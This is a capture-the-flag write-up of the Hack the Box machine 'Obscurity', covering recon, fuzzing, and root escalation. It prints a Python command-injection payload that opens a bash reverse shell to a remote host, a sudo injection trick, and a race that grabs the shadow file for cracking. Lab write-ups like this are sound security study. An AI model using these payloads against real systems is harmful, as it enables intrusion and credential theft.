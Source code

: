 +++
author = "Nick"
categories = ["hack the box", "burpsuite", "command injection", "reverse shell", "python", "custom exploitation", "medium", "wfuzz", "john"]
date = 2020-05-09T14:00:00Z
description = ""
draft = false
thumbnail = "/images/2019/12/info.png"
slug = "hack-the-box-obscurity"
summary = "Welcome back everyone! Today we'll be doing the machine Obscurity on Hack the Box. It's listed as a medium Linux machine, let's jump in!"
tags = ["hack the box", "burpsuite", "command injection", "reverse shell", "python", "custom exploitation", "medium", "wfuzz", "john"]
title = "Hack the Box - Obscurity"
url = "/hack-the-box-obscurity"

+++


Welcome back everyone! Today we'll be doing the machine Obscurity on Hack the Box. It's listed as a medium Linux machine, let's jump in!

As usual we start with ```nmap```: ```nmap -sC -sV -T4 -p- -oA initial_scan 10.10.10.168```.

Here are our results:
```
Nmap scan report for 10.10.10.168
Host is up (0.055s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:d3:9a:0d:97:2c:54:20:e1:b0:17:34:f4:ca:70:1b (RSA)
|   256 f6:8b:d5:73:97:be:52:cb:12:ea:8b:02:7c:34:a3:d7 (ECDSA)
|_  256 e8:df:55:78:76:85:4b:7b:dc:70:6a:fc:40:cc:ac:9b (ED25519)
80/tcp   closed http
8080/tcp open   http-proxy BadHTTPServer
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Mon, 23 Dec 2019 14:38:24
|     Server: BadHTTPServer
|     Last-Modified: Mon, 23 Dec 2019 14:38:24
|     Content-Length: 4171
|     Content-Type: text/html
|     Connection: Closed
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>0bscura</title>
|     <meta http-equiv="X-UA-Compatible" content="IE=Edge">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta name="keywords" content="">
|     <meta name="description" content="">
|     <!-- 
|     Easy Profile Template
|     http://www.templatemo.com/tm-467-easy-profile
|     <!-- stylesheet css -->
|     <link rel="stylesheet" href="css/bootstrap.min.css">
|     <link rel="stylesheet" href="css/font-awesome.min.css">
|     <link rel="stylesheet" href="css/templatemo-blue.css">
|     </head>
|     <body data-spy="scroll" data-target=".navbar-collapse">
|     <!-- preloader section -->
|     <!--
|     <div class="preloader">
|_    <div class="sk-spinner sk-spinner-wordpress">
|_http-server-header: BadHTTPServer
|_http-title: 0bscura
9000/tcp closed cslistener
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.80%I=7%D=12/23%Time=5E00D11F%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,10FC,"HTTP/1\.1\x20200\x20OK\nDate:\x20Mon,\x2023\x20Dec\x202
SF:019\x2014:38:24\nServer:\x20BadHTTPServer\nLast-Modified:\x20Mon,\x2023
SF:\x20Dec\x202019\x2014:38:24\nContent-Length:\x204171\nContent-Type:\x20
SF:text/html\nConnection:\x20Closed\n\n<!DOCTYPE\x20html>\n<html\x20lang=\
SF:"en\">\n<head>\n\t<meta\x20charset=\"utf-8\">\n\t<title>0bscura</title>
SF:\n\t<meta\x20http-equiv=\"X-UA-Compatible\"\x20content=\"IE=Edge\">\n\t
SF:<meta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-
SF:scale=1\">\n\t<meta\x20name=\"keywords\"\x20content=\"\">\n\t<meta\x20n
SF:ame=\"description\"\x20content=\"\">\n<!--\x20\nEasy\x20Profile\x20Temp
SF:late\nhttp://www\.templatemo\.com/tm-467-easy-profile\n-->\n\t<!--\x20s
SF:tylesheet\x20css\x20-->\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/bo
SF:otstrap\.min\.css\">\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/font-
SF:awesome\.min\.css\">\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/templ
SF:atemo-blue\.css\">\n</head>\n<body\x20data-spy=\"scroll\"\x20data-targe
SF:t=\"\.navbar-collapse\">\n\n<!--\x20preloader\x20section\x20-->\n<!--\n
SF:<div\x20class=\"preloader\">\n\t<div\x20class=\"sk-spinner\x20sk-spinne
SF:r-wordpress\">\n")%r(HTTPOptions,10FC,"HTTP/1\.1\x20200\x20OK\nDate:\x2
SF:0Mon,\x2023\x20Dec\x202019\x2014:38:24\nServer:\x20BadHTTPServer\nLast-
SF:Modified:\x20Mon,\x2023\x20Dec\x202019\x2014:38:24\nContent-Length:\x20
SF:4171\nContent-Type:\x20text/html\nConnection:\x20Closed\n\n<!DOCTYPE\x2
SF:0html>\n<html\x20lang=\"en\">\n<head>\n\t<meta\x20charset=\"utf-8\">\n\
SF:t<title>0bscura</title>\n\t<meta\x20http-equiv=\"X-UA-Compatible\"\x20c
SF:ontent=\"IE=Edge\">\n\t<meta\x20name=\"viewport\"\x20content=\"width=de
SF:vice-width,\x20initial-scale=1\">\n\t<meta\x20name=\"keywords\"\x20cont
SF:ent=\"\">\n\t<meta\x20name=\"description\"\x20content=\"\">\n<!--\x20\n
SF:Easy\x20Profile\x20Template\nhttp://www\.templatemo\.com/tm-467-easy-pr
SF:ofile\n-->\n\t<!--\x20stylesheet\x20css\x20-->\n\t<link\x20rel=\"styles
SF:heet\"\x20href=\"css/bootstrap\.min\.css\">\n\t<link\x20rel=\"styleshee
SF:t\"\x20href=\"css/font-awesome\.min\.css\">\n\t<link\x20rel=\"styleshee
SF:t\"\x20href=\"css/templatemo-blue\.css\">\n</head>\n<body\x20data-spy=\
SF:"scroll\"\x20data-target=\"\.navbar-collapse\">\n\n<!--\x20preloader\x2
SF:0section\x20-->\n<!--\n<div\x20class=\"preloader\">\n\t<div\x20class=\"
SF:sk-spinner\x20sk-spinner-wordpress\">\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Our results seem to show a web server with a production and dev enviornment. Looks like we're running ```Wordpress``` on the 9000 port as well. Let's visit the site and see what's here. We know port 80 is closed but 8080 is running and we are greeted a basic page. From browsing the page we get a hostname, obscure.htb, so we'll add that to our host file. We also know there are some more settings listed in a secret development directory somewhere. So we'll load up ```gobuster``` and see what we get back.

Command:
```gobuster dir -u http://obscure.htb:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 75```

When we run this we get a flood of errors back. This is to do ```gobuster``` using ```Head``` requests vs ```get```. Well, we know that we are looking for ```SuperSecureServer.py```. We can just fuzz the directory(ies) we are looking for using ```ffuf``` or ```wfuzz```.

Command:
```wfuzz -c -w /usr/share/wordlists/dirb/small.txt --hc 404 'http://obscure.htb:8080/FUZZ/SuperSecureServer.py'```

I ran a few larger wordlists against the target but all of them failing after ~2,200 requests. So we pick an even smaller listing.

![](/images/2019/12/obscurity_fuzz.gif)

We find our target is stored under ```develop```. Lets get the file.

Command: 
```wget 'http://obscure.htb:8080/develop/SuperSecureServer.py'```

Once we have it downloaded, we look at what's inside.

![](/images/2019/12/image-40.png)

We found our foothold. If we are able to pass our command and escape the first part, we should be able to execute some python code we inject. We need to make sure we format our request correctly. We want to close the first part of the ommand with ```';``` then execute our code and close the command. I used a simple bash reverse shell:

```
;os.system('bash%20-c%20"bash%20-i%20>&%20/dev/tcp/10.10.15.129/4444%200>&1"');'
```

We apply this to our URL and wait for our connector...

![](/images/2019/12/obscurity_www_shell.gif)

We now have a shell as ```www-data```. Now that we have a shell we can start enumerating internally. We see a few files in ```Robert```'s home directory. ```SuperSecureCrypt.py``` and ```passwordreminder.txt```. We download the python script and look at it locally. It looks to contain an [```Vigenere cipher```](https://en.wikipedia.org/wiki/Vigen%C3%A8re_cipher) method. If you are familiar with this cipher you know that we can obtain the password for the file if you know the original input.

![](/images/2019/12/obscurity_key.gif)

It looks like our password was ```alexandrovich```. We can now take this password and decrypt our ```passwordreminder.txt```. Repeating the process but supplying a ```-k``` of ```alexanderovich``` gives us a password of ```SecThruObsFTW```. Which assumably is Robert's password. We try to SSH as him and it works.

![](/images/2019/12/obscurity_robert_ssh-1.gif)

Now that we've gotten our ```user.txt```. Lets start enumerating as Robert. We see that Robert is able to launch ```BetterSSH.py``` as sudo.

![](/images/2019/12/image-41.png)

When we look through ```BetterSSH.py``` we see there are a few avenue's of attack. The first being this ```command injection```.

![](/images/2019/12/image-42.png)

The application calls the command you input with the ```-u``` flag. So if we simply apply another ```-u``` to our input, we can do things as ```root```!

![](/images/2019/12/obscurity_root_1.gif)

The other method is that we see that copies the system shadow file out to a temporary directory every .1 seconds. If we can monitor this file location, we can snag the file before it's deleted. So we'll make a file on ```/tmp``` called snag. Then we'll run the ```watch``` command every .1 seconds. We then run the ```BetterSSH.py``` script and snag the file before it's created.

Command:
```watch -n .1 cp /tmp/SSH/* /tmp/snag```

![](/images/2019/12/obscurit_root_2.gif)

We can then get the contents of the file we copied. Inside it we have the root hash.

![](/images/2019/12/image-43.png)

We can just run it through ```John``` and see if we get a password.

![](/images/2019/12/obscurity_root_hash-1.gif)

Sure enough, we get one: ```mercedes```. We can now just ```su``` to root.

![](/images/2019/12/obscurity_root_su.gif)

There we have it. Another box down!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).


